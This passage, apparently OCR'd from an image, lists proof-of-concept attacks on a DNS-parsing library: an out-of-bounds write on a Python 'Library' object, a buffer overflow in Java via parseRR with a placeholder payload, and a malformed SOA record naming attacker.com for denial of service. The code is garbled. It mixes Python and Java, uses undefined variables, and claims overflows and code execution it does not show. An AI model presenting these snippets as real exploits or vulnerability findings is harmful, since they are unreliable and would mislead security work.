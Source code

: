 # Craft a Library object with a name field that points to the start of
# the malicious byte array, and an offset that writes beyond the end of
# the array


lib = Library()
lib.name = bytes([0x42] * 10)
lib.offset = len(lib.name) + 1
lib.nameLength = len(malicious_bytes)

# Attempt to write to the name field using the offset parameter


lib.writeName()

# Check that the malicious bytes were written to memory


assert malicious_bytes in lib.name




POC 3: Crafted DNS resource record causing buffer overflow
An attacker can craft a malicious payload to exploit the fact that the library doesn't perform any validation on the contents of the DNS resource records it parses. By passing a crafted DNS resource record to the `parseRR` function, the attacker can cause a buffer overflow vulnerability in the library, which could potentially allow them to execute arbitrary code or crash the system.


// Crafted DNS resource record causing buffer overflow


byte[] payload = { /* malicious payload */ };
DNSResourceRecord rr = new DNSResourceRecord();
rr.setData(payload);
dnsParser.parseRR(rr);


POC 4: Malicious resource record causing DoS attack
An attacker can craft a malicious resource record with an invalid format to cause the library to behave unexpectedly, leading to a DoS attack. By passing a resource record with an invalid format to the `parseRR` function, the library may crash or become unresponsive, causing a denial of service to legitimate users.


// Malicious resource record causing DoS attack


DNSResourceRecord rr = new DNSResourceRecord();
rr.setName("attacker.com");
rr.setType(DNSType.SOA);
rr.setClass(DNSClass.IN);
rr.setTTL(3600);
rr.setData("ns.attacker.com hostmaster.attacker.com 1 3600 1800 604800 86400");
dnsParser.parseRR(rr);
